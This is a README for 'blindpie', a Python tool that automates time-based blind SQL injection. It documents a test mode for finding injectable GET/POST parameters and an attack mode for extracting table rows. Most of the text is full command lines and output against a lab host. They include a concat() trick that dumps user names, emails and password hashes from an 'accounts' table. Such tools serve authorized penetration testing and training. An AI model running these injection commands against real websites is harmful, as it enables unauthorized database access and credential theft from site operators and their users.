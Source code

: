 # blindpie

`blindpie` is a simple Python script to automate time-based blind SQL injections.<br>
It should work fine injecting in SELECT, DELETE, and UPDATE queries. Injections in INSERT queries are supported only for parameters which are unquoted (numeric values).

## Usage

Use the `--help` command to show the help message:

```
 _     _ _           _       _      
| |   | (_)         | |     (_)     
| |__ | |_ _ __   __| |_ __  _  ___
| '_ \| | | '_ \ / _` | '_ \| |/ _ \
| |_) | | | | | | (_| | |_) | |  __/
|_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                     | |           
                     |_|           

usage: blindpie.py [-h] -u URL -p PARAMS [PARAMS ...] -d DEFAULT [DEFAULT ...]
                 (--post | --get) [-M M] [-T T]
                 {test,attack} ...

A simple tool to automate time-based blind SQL injections.

positional arguments:
{test,attack}

optional arguments:
-h, --help            show this help message and exit
-u URL, --url URL     url of the target
-p PARAMS [PARAMS ...], --params PARAMS [PARAMS ...]
                      parameters for the requests
-d DEFAULT [DEFAULT ...], --default DEFAULT [DEFAULT ...]
                      default values for the parameters
--post                use method POST
--get                 use method GET
-M M                  attack mode (from 0, the least reliable but the
                      fastest, to 3, the most reliable but the slowest)
-T T                  number of threads to create when getting multiple rows

Note: the default values must be of the same type of data of the parameters
(use numbers for the parameters which are numbers, strings otherwise).
```

The script provides two modes of operation: the <i>test mode</i> and the <i>attack mode</i>.

### Test mode

The <i>test mode</i> is used to test which parameters of the GET/POST request could be vulnerable to SQL injection.

This is the help message for the <i>test mode</i>:

```
usage: blindpie.py test [-h] --test

optional arguments:
  -h, --help  show this help message and exit
  --test      test for vulnerabilities
```

Use the `--test` flag to test the parameters.

#### Example:

The page with url `192.168.0.104/sqli/time_based_blind_escaped.php` accepts POST requests with parameters `to` and `msg`, where the former is an integer and the latter is a string. The `-d` parameter is used to set the default value for the parameter of the request and to distinguish between numeric values (which in queries are unquoted) and strings (in queries are quoted). Use as default values strings if the parameter is a string, numeric values if the parameter is an integer, float, etc...

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post test --test
  _     _ _           _       _      
 | |   | (_)         | |     (_)     
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |           
                       |_|           

[*] avg response time is 0.019 sec (done in 0.049 sec)
[*] testing params: |████████████████████████████████████████| 100.0% complete
> RESULTS:
[*] to seems to be vulnerable
[*] msg doesn't seem to be vulnerable
[*] all done in 0.063 sec
```

The script tests each parameter of the request and shows if it seems to be vulnerable or not.

### Attack mode

The <i>attack mode</i> is used to extract data from the database by exploiting vulnerable parameters.

This is the help message for the <i>attack mode</i>:

```
usage: blindpie.py attack [-h] --param PARAM --table TABLE --column COLUMN
                          --row ROW [--rows ROWS]

optional arguments:
  -h, --help       show this help message and exit
  --param PARAM    vulnerable parameter to exploit
  --table TABLE    name of the table from which to select
  --column COLUMN  name of the column to select
  --row ROW        index of the row to select
  --rows ROWS      number of rows to select
```

#### Example:

The page with url `192.168.0.104/sqli/time_based_blind.php` accepts GET requests with a parameter named `email`, which is a string. The `-d` parameter is used to set the default value for the parameter. As said before, use as default values strings if the parameter is a string, numeric values if the parameter is an integer, float, etc...

In this case I'm going to extract the rows from 0 to 3 of the `first_name` column from the table `accounts` by exploiting the `email` parameter of the GET request:

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T4 attack --table accounts --column first_name --param email --row 0 --rows 4
  _     _ _           _       _      
 | |   | (_)         | |     (_)     
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |           
                       |_|           

[*] avg response time is 0.031 sec (done in 0.096 sec)
[*] row 0 length is 6
[*] row 1 length is 4
[*] row 2 length is 6
[*] row 3 length is 6
[*] getting 4 rows: |████████████████████████████████████████| 100.0% complete (34.583 sec)
> RESULTS:
Arthur
Ford
Tricia
Zaphod
[*] all done in 34.583 sec
```

Note #1: use the `-M` parameter to set the reliability of the script. The value goes from 0 (the least reliable but the fastest) to 3 (the most reliable but the slowest).

Note #2: use the `-T` parameter to set the number of rows to extract concurrently. <strong>Multithreading is suggested during local analysis only. It seems to be less reliable for non local targets.</strong>

The script will test each character of each row and will print the rows found.

### Trick

You can extract multiple columns at a time by concatenating the values. Use the `concat` function as the column name:

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T10 attack --table accounts --column "concat(id, char(32), first_name, char(32), last_name, char(32), email, char(32), password)" --param email --row 0 --rows 10
  _     _ _           _       _
 | |   | (_)         | |     (_)
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |
                       |_|

[*] avg response time is 0.018 sec (done in 0.054 sec)
[*] row 0 length is 71
[*] row 1 length is 70
[*] row 2 length is 75
[*] row 3 length is 77
[*] row 4 seems to be empty
[*] row 5 seems to be empty
[*] row 6 seems to be empty
[*] row 7 seems to be empty
[*] row 8 seems to be empty
[*] row 9 seems to be empty
[*] getting 10 rows: |████████████████████████████████████████| 100.0% complete (373.877 sec)
> RESULTS:
1 Arthur Dent arthur@guide.com d00ee262cdcbe7543210bb85f6f1cac257b4e994
2 Ford Prefect ford@guide.com 30f5cc99c17426a0d28acf8905c6d776039ad022
3 Tricia McMillan tricia@guide.com bcb3358e273b5772ee0ae1799b612e13cc726b04
4 Zaphod Beeblebrox zaphod@guide.com 0c38530eaca4dbc0f49c459c0c52b362f14215c3
[empty]
[empty]
[empty]
[empty]
[empty]
[empty]
[*] all done in 373.877 sec
```

Note #1: a row can't be longer than `MAX_ROW_LENGTH` (by default is 128) or it will be ignored and considered empty.

Note #2: `char(32)` is the 'space' character.

## Authors

* **Alessio Vierti** - *Initial work*

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details
